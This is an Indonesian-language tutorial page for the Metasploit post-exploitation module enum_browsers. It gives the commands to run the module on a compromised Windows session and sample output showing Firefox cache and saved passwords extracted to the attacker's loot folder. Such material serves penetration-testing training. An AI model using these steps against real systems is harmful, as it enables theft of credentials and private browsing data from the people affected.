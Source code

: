 # enum_browsers

Module `enum_browsers` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengumpulkan informasi terkait aktivitas `web browser` di komputer target, seperti `daftar situs yang pernah dikunjungi`, `kredensial yang disimpan`, serta `data autofill`. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan memanfaatkan berbagai teknik untuk mengekstrak data dari browser populer seperti `Chrome`, `Firefox`, dan `Internet Explorer`, sehingga sangat berguna dalam tahap pengumpulan informasi sensitif pasca eksploitasi.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_browsers
set EXTRACT_CACHE true
set SESSION <ID>
set USER_MIGRATION true
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Targeting: admin-PC\admin (IP: 192.168.1.52)
[*] System Information: ADMIN-PC | OS: Windows 7 (6.1 Build 7601, Service Pack 1). | Arch: x64 | Lang: en_US
[*] Starting data extraction from user profile: C:\Users\admin
[*] 
[+] Found Mozilla Firefox (Version: 115.0.3)
[*] 409 cache files found for Mozilla Firefox, total size: 34931 KB
[*] └ Zipping progress: 10% (41/409 files processed)
[*] └ Zipping progress: 20% (82/409 files processed)
[*] └ Zipping progress: 30% (123/409 files processed)
[*] └ Zipping progress: 40% (164/409 files processed)
[*] └ Zipping progress: 50% (205/409 files processed)
[*] └ Zipping progress: 60% (246/409 files processed)
[*] └ Zipping progress: 70% (287/409 files processed)
[*] └ Zipping progress: 80% (328/409 files processed)
[*] └ Zipping progress: 90% (369/409 files processed)
[*] └ Zipping progress: 100% (409/409 files processed)
[*] └ Cache for Mozilla Firefox zipped to: C:\Users\admin\AppData\Local\Temp\kCQGAVrY.zip
[+] └ Cache extracted to /root/.msf4/loot/20250516125830_default_192.168.1.52_MozillaFirefox__308548.zip (27425464 bytes)
[+] └ Passwords extracted to /root/.msf4/loot/20250516125832_default_192.168.1.52_MozillaFirefox__141190.json (3 entries)
[-] └ Cookies empty
[-] └ Download history empty
[-] └ Keyword search history empty
[-] └ Browsing history empty
[-] └ Bookmarks empty
[-] └ No extensions found for Mozilla Firefox.
[-] └ Cookies empty
[-] └ Download history empty
[-] └ Keyword search history empty
[-] └ Browsing history empty
[-] └ Bookmarks empty
[*] Post module execution completed
```
